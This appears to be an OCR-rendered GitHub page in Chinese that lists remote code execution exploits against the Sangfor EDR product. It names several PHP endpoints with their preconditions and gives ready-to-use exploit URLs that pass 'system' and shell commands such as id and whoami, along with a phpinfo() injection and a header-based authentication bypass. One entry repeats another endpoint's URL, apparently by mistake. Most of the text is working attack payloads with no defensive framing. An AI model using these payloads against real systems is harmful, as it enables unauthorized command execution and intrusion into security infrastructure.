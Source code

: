 # **Sangfor-EDR**
ldb_ext_root = /ac/dc/ldb/
## **RCE** 
### **/tool/log/c.php**
要求:无  
#### exp
http://127.0.0.1/tool/log/c.php?strip_slashes=system&host=id
![1](1.jpg)
### **/tool/php_cli.php**
要求:默认不允许使用,需要在服务器上手动在指定目录下touch一个enable_dc_tool文件开启该功能
#### exp
http://127.0.0.1/tool/php_cli.php?strip_slashes=system&code=whoami  
![2](2.jpg)
### **/tool/ldb_cli.php**
要求:默认不允许使用,需要在服务器上手动在指定目录下touch一个enable_dc_tool文件开启该功能
#### **exp**
http://127.0.0.1/tool/log/c.php?strip_slashes=system&json=id
### **/tool/mdd_sql.php**
要求:默认不允许使用,需要在服务器上手动在指定目录下touch一个enable_dc_tool文件开启该功能
#### exp
http://127.0.0.1/tool/mdd_sql.php?strip_slashes=system&root=id  

http://127.0.0.1/tool/mdd_sql.php?$sql=phpinfo();  
要求:后台登陆
## 权限绕过
添加Y-Forwarded-For头在默认环境下可未授权访问一些接口  
[参考](https://mp.weixin.qq.com/s/4Z4QF-Wdq2PhqCkGKB8Q6Q)
